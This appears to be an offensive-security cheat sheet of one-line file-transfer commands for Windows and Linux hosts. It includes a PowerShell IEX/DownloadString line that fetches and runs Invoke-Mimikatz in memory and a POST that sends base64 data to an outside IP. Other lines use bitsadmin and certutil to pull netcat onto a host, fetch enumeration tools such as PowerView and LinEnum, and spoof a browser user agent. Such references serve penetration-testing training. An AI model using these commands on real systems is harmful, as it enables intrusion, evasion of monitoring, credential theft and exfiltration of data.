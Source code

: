 # File Transfers

***

| **Command**                                                                                                        | **Description**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
|  `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                           | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
